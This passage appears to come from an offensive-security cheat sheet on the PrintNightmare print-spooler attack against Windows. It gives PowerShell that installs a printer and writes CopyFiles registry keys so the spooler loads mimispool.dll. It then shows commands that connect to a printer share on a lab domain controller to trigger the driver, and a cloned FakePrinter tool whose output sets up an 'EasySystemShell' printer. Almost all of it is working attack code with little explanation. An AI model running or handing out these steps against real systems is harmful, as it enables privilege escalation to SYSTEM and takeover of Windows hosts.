 ```

Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared

New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null
```

Execute the driver

```
$serverName  = 'dc.purple.lab'
$printerName = 'Universal Priv Printer'
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

### PrinterNightmare

```
git clone https://github.com/Flangvik/DeployPrinterNightmare
PS C:\adversary> FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
[<3] @Flangvik - TrustedSec
[+] Copying C:\Windows\system32\mscms.dll to C:\Windows\system32\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 64mimispool.dll to C:\Windows\system32\spool\drivers\x64\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 32mimispool.dll to C:\Windows\system32\spool\drivers\W32X86\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Adding printer driver => Generic / Text Only!
[+] Adding printer => EasySystemShell!
[+] Setting 64-bit Registry key
[+] Setting 32-bit Registry key
[+] Setting '*' Registry key
```
